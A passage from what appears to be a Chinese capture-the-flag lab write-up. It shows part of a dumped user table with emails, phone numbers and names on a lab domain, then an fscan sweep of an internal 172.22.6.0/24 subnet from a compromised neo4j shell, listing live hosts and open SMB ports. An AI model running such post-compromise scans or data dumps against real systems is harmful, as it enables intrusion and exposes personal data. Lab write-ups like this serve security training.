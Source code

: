 ```plain
| 489 | yuwan@xiaorang.lab         | 15505678035 | YU WAN          |
| 490 | diaowei@xiaorang.lab       | 13052582975 | DIAO WEI        |
| 491 | youyi@xiaorang.lab         | 18036808394 | YOU YI          |
| 492 | rongxianyu@xiaorang.lab    | 18839918955 | RONG XIAN YU    |
| 493 | fuyi@xiaorang.lab          | 15632151678 | FU YI           |
| 494 | linli@xiaorang.lab         | 17883399275 | LIN LI          |
| 495 | weixue@xiaorang.lab        | 18672465853 | WEI XUE         |
| 496 | hejuan@xiaorang.lab        | 13256081102 | HE JUAN         |
| 497 | zuoqiutai@xiaorang.lab     | 18093001354 | ZUO QIU TAI     |
| 498 | siyi@xiaorang.lab          | 17873307773 | SI YI           |
| 499 | shenshan@xiaorang.lab      | 18397560369 | SHEN SHAN       |
| 500 | tongdong@xiaorang.lab      | 15177549595 | TONG DONG       |
+-----+----------------------------+-------------+-----------------+
```

[![](assets/1706513339-37c6566eb8d75893a0f034569be2b8bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231647-413298aa-bdf0-1.png)

拿下第二个 flag

这里用 fscan 扫一下，为下面的操作打基础

```plain
neo4j@ubuntu:~$ ./fscan -h 172.22.6.0/24
./fscan -h 172.22.6.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.36     is alive
(icmp) Target 172.22.6.38     is alive
[*] Icmp alive hosts len is: 4
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.12:139 open
172.22.6.25:139 open
172.22.6.25:135 open
172.22.6.12:135 open
```